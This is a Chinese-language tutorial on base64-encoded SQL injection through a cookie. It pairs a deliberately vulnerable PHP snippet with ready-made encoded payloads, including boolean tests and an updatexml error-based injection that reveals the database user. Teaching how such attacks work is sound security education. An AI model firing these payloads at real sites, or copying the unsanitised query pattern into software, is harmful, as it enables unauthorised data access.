 ## 0x00 base64注入原理
base64 一般用于数据编码进行传输，例如邮件等。  
数据编码的好处是，防止数据丢失，也有不少网站使用 base64编码 进行数据传输，如 搜索栏 或者 id接收参数有可能使用 base64 处理传递的参数。  
在php 中 base64_encode()函数对字符串进行base64 编码,既然可以编码也可以进行解码，base64_decode()这个函数对 base64 进行解码。  
编解码流程如下：  
1 ->base64 编码-> MQ== -> base64 解密 ->1   
base64 编码注入，可以绕过 gpc 注入拦截，因为编码过后的字符串不存在特殊字符。编码过后的字符串，在程序中重新被解码，再拼接成 SQL 攻击语句，再执行，从而形式 SQL 注入。

## 0x01 base64注入代码分析
使用$_COOKIE['uname']获取 cookie 传过来的账号，再拼接到 SQL 带入查询。  
```php
$cookie = $_COOKIE['uname'];
$cookie = base64_decode($cookie)
$sql = "select * from users where username = '$cookie' limit 0,1";
```
上面代码中，先把\$_COOKIE['uname']传过来的数据进行解码，成功解码后才能显示正常数据。

## 0x02 黑盒环境下的base64注入
首先观察网站是否存在 base64 编码的数据，例如传递的 id 的值，搜索模块等，寻找每个功能的数据包。如果存在类似==等，可以用 base64 解码进行测试。  
admin'and 1=1-- 编码 YWRtaW4nYW5kIDE9MS0tIA==    
admin'and 1=2-- 编码 YWRtaW4nYW5kIDE9Mi0tIA==  
本次测试的页面是 cookie 所以需要 cookie 提交 而且有括号需要闭合，第一次提交页面返回存在 admin 第二次提交没有 admin 两个页面返回的结果不相同所以存在 SQL 注入。  
本代码存在 mysqli_error 函数所以可以里利用报错注入再进一步获取敏感信息。  
```sql
'admin' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--
```
进行base64编码是：YWRtaW4nKWFuZCAodXBkYXRleG1sKDEsY29uY2F0KDB4N2UsKHNlbGVjdCB1c2VyKCkpLDB4N2UpLDEpKS0tICA= ，提交即可获取敏感信息。
